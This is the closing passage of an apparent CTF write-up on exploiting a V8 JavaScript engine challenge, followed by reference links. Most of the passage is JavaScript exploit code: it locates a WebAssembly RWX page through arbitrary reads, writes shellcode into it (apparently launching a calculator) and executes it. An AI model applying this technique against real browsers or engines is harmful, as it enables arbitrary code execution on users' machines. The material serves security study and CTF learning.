 ```javascript
//----- get wasm_code by AAR

var wasm_function_addr = f2i(fake_object[float_obj_idx]);
console.log("[+] wasm_function_addr: 0x"+hex(wasm_function_addr));

var wasm_shared_info = dataview_read64(wasm_function_addr -1 + 0x18);
console.log("[+] find wasm_shared_info : 0x" + hex(wasm_shared_info));

var wasm_data = dataview_read64(wasm_shared_info -1 + 0x8);
console.log("[+] find wasm_data : 0x" + hex(wasm_data));

var wasm_instance = dataview_read64(wasm_data -1 + 0x10);
console.log("[+] find wasm_instance : 0x" + hex(wasm_instance));

var wasm_rwx = dataview_read64(wasm_instance - 1 + 0x88);
console.log("[+] find wasm_rwx : 0x" + hex(wasm_rwx));


//write shellcode to wasm
var shellcode = [72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72, 184, 46, 121, 98,
96, 109, 98, 1, 1, 72, 49, 4, 36, 72, 184, 47, 117, 115, 114, 47, 98,
105, 110, 80, 72, 137, 231, 104, 59, 49, 1, 1, 129, 52, 36, 1, 1, 1, 1,
72, 184, 68, 73, 83, 80, 76, 65, 89, 61, 80, 49, 210, 82, 106, 8, 90,
72, 1, 226, 82, 72, 137, 226, 72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72,
184, 121, 98, 96, 109, 98, 1, 1, 1, 72, 49, 4, 36, 49, 246, 86, 106, 8,
94, 72, 1, 230, 86, 72, 137, 230, 106, 59, 88, 15, 5];

dataview_write(wasm_rwx, shellcode);

wasm_function();
```



运行效果图：

![image-20200818101431155](D:\github\De4dCr0w.github.io\image\2020-08-14-qwb2019-final-groupupjs分析\4.png)



## 参考链接

https://zhuanlan.zhihu.com/p/73081003

https://xz.aliyun.com/t/5870#toc-2


